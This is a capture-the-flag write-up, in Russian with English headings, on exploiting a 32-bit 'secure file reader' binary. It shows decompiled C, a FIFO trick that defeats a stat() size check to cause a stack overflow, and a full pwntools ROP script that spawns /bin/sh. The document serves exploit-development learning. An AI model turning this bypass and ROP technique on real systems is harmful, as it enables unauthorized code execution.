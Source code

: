 ## Exploit Me 200 (Secure File Reader)

```
$ file pwn
pwn: ELF 32-bit LSB  executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=acc530c91c4841537384866623e6dc50074105c8, not stripped
```
checksec:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Программа принимает в качестве argv[1] имя файла, содержимое которого затем пишет в буфер. Перед записью проверяется размер файла с помощью stat, и запись производится только в том случае, если он <= 4095. 
  
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@2

  if ( argc == 2 )
  {
    safe_save(argv[1]);
    result = 0;
  }
  else
  {
    puts("Usage ./prog <filename> ");
    result = 1;
  }
  return result;
}
```  
```C
int __cdecl safe_save(int a1)
{
  int result; // eax@2
  char dest; // [sp+10h] [bp-1008h]@2

  if ( check_size(a1) )
  {
    save_in_buffer(a1, &dest);
    result = puts("The file has been saved successfully");
  }
  else
  {
    result = puts("No No the file is too big \n");
  }
  return result;
}
```
```C
_BOOL4 __cdecl check_size(int a1)
{
  char v2; // [sp+18h] [bp-60h]@1
  int v3; // [sp+44h] [bp-34h]@1

  stat(a1, &v2);
  return v3 <= 4095;
}
```
```C
int __cdecl save_in_buffer(int a1, char *dest)
{
  int result; // eax@6
  char src[257]; // [sp+17h] [bp-111h]@5
  int v4; // [sp+118h] [bp-10h]@5
  int v5; // [sp+11Ch] [bp-Ch]@1

  v5 = open(a1, 0);
  if ( v5 == -1 )
  {
    perror("[-] open fail!");
    exit(0);
  }
  while ( 1 )
  {
    result = read(v5, src, 256);
    v4 = result;
    if ( result <= 0 )
      break;
    src[v4 - 1] = 0;
    strncat(dest, src, 0x100u);
  }
  return result;
}
```  
Для обхода ограничения на размер можно использовать FIFO.  
  
```
$ mkfifo f
$ python -c 'print("A"*5000)' > f
$ ./pwn f
The file has been saved successfully
Segmentation fault (core dumped)
```
Т.к. стек неисполняемый, собираем ропчейн для execve с '/bin//sh', которую запишем в .bss  
```python
from pwn import *

bss = p32(0x80edf74)
bss1 = p32(0x80edf74+4)
pop_edx = p32(0x807270a) # pop edx ; ret
pop_eax = p32(0x80beb26) # pop eax ; ret
mov_edx_eax = p32(0x809dead) # mov DWORD PTR [edx],eax ; ret 
xor_eax_eax = p32(0x805895f) # xor eax, eax ; pop ebx ; ret
inc_eax = p32(0x807f15f) # inc eax ; ret
int_x80 = p32(0x8049501) # int 0x80
pppr = p32(0x08072730) # pop edx ; pop ecx ; pop ebx ; ret
inc_ecx = p32(0x080ddf6c) # inc ecx ; ret
inc_edx = p32(0x0805d6f7) # inc edx ; ret

pad = "A"*4124

payload = ""
payload += pad
payload += pop_eax + "/bin" + pop_edx + bss + mov_edx_eax
payload += pop_eax + "//sh" + pop_edx + bss1 + mov_edx_eax + xor_eax_eax + bss
payload += pppr + p32(0xffffffff)*2 + bss
payload += inc_ecx + inc_edx
payload += inc_eax*11
payload += int_x80


print(payload)
```

size check bypass => stack buffer overflow => ROP